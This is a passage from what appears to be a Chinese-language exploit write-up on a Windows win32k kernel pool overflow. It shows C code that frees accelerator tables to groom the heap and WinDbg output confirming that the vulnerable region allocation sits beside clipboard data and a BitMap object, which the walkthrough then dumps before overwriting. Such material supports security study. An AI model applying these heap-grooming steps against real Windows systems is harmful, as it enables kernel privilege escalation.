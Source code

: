 ```
    for (i = 2000; i < 3000; i++)
    {
        if (!DestroyAcceleratorTable(hAccel[i]))
        {
            ShowError("DestroyAcceleratorTable", GetLastError());
            bRet = FALSE;
            goto exit;
        }
        hAccel[i] = NULL;
    }
 
exit:
    return bRet;
}
```  
  
  
  
此时编译运行，在分配内存处下断点可以看到漏洞函数申请的内存刚好在剪切板数据和BitMap对象后，且这三个数据加一起共占一个页的大小。而下一个页的数据是剪切板数据，BitMap对象和加速表对象，所以此时的内存布局已经如上图所示。同时，也记录下下一内存页的BitMap对象的数据，以供之后比对。  
```
2: kd> g
Breakpoint 1 hit
win32k!RGNMEMOBJ::vCreate+0xc5:
96cf3ffc ff155000e796    call    dword ptr [win32k!_imp__ExAllocatePoolWithTag (96e70050)]
1: kd> p
win32k!RGNMEMOBJ::vCreate+0xcb:
96cf4002 8b5510          mov     edx,dword ptr [ebp+10h]
1: kd> r eax
eax=cafc4f98
1: kd> !pool cafc4f98
Pool page cafc4f98 region is Paged session pool
 cafc4000 size:  b70 previous size:    0  (Allocated)  Uscb
 cafc4b70 size:  420 previous size:  b70  (Allocated)  Gh15
*cafc4f90 size:   70 previous size:  420  (Allocated) *Grgn
        Pooltag Grgn : GDITAG_REGION, Binary : win32k.sys
1: kd> !pool cafc5008                 // 下一内存页
Pool page cafc5008 region is Paged session pool
*cafc5000 size:  b70 previous size:    0  (Allocated) *Uscb
        Pooltag Uscb : USERTAG_CLIPBOARD, Binary : win32k!_ConvertMemHandle
 cafc5b70 size:  420 previous size:  b70  (Allocated)  Gh15
 cafc5f90 size:   70 previous size:  420  (Free )  Usac Process: 87bc0030
1: kd> dc cafc5B70                        // 写入前BitMap对象中的数据
cafc5b70  4684016e 35316847 0205108f 00000000  n..FGh15........
cafc5b80  00000000 00000000 00000000 0205108f  ................
cafc5b90  00000000 00000000 00000001 000000b1  ................
cafc5ba0  000002c4 cafc5ccc cafc5ccc 00000004  .....\...\......
cafc5bb0  0000319a 00000006 00010000 00000000  .1..............
cafc5bc0  04800200 00000000 00000000 00000000  ................
cafc5bd0  00000000 00000000 00000000 00000000  ................
cafc5be0  00000000 00000000 00000000 00000000  ................
```  
  